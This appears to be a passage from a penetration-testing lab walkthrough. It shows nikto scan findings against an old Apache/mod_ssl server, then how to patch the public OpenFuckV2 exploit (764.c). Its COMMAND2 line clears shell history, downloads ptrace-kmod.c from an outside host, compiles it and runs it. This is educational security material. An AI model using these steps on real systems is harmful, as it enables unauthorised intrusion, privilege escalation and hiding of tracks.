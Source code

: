 ```console
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ OSVDB-27487: Apache is vulnerable to XSS via the Expect header
+ OpenSSL/0.9.6b appears to be outdated (current is at least 1.0.1j). OpenSSL 1.0.0o and 0.9.8zc are also current.
+ mod_ssl/2.8.4 appears to be outdated (current is at least 2.8.31) (may depend on server version)
+ Apache/1.3.20 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-838: Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution. CAN-2002-0392.
+ OSVDB-4552: Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system. CAN-2002-0839.
+ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
+ ///etc/hosts: The server install allows reading of any system file by adding an extra '/' to the URL.
+ OSVDB-682: /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
+ OSVDB-3268: /manual/: Directory indexing found.
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ 8345 requests: 0 error(s) and 21 item(s) reported on remote host
+ End Time:           2019-06-20 21:34:12 (GMT5.5) (29 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

`nikto` finds out that the version of mod_ssl is vulnerable to a Remote Buffer Overflow which may allow a Remote Shell.

After a little research work...an Exploit is found in [exploit-db.com](https://www.exploit-db.com/exploits/764) named `OpenFuckV2.c`.
Download the exploit and it will be saved as `764.c`.

Now we have to edit the exploit a little bit.

## Add the following headers.
```console
#include <openssl/rc4.h>
#include <openssl/md4.h>
```

## Update the URL in the Command.
```console
#define COMMAND2 "unset HISTFILE; cd /tmp; wget http://packetstormsecurity.nl/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
```
## To
```console
http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
```
